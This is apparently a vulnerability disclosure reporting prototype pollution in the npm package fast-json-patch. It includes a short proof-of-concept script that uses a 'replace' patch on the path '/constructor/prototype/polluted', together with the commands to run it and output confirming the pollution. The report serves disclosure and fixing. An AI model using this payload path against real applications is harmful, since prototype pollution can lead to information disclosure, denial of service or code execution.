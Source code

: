 # Description

`fast-json-patch` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
let fastjsonpatch = require("fast-json-patch");

function A() {}

let a = new A();
let b = new A();
console.log("Before : " + a.polluted);
console.log("Before : " + b.polluted);

const patch = [{op: "replace", path: "/constructor/prototype/polluted", value: "Yes! Its Polluted"}];

fastjsonpatch.applyPatch(a, patch);

console.log("After : " + a.polluted);
console.log("After : " + b.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i fast-json-patch # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
Before : undefined
After : Yes! Its Polluted
After : Yes! Its Polluted
```
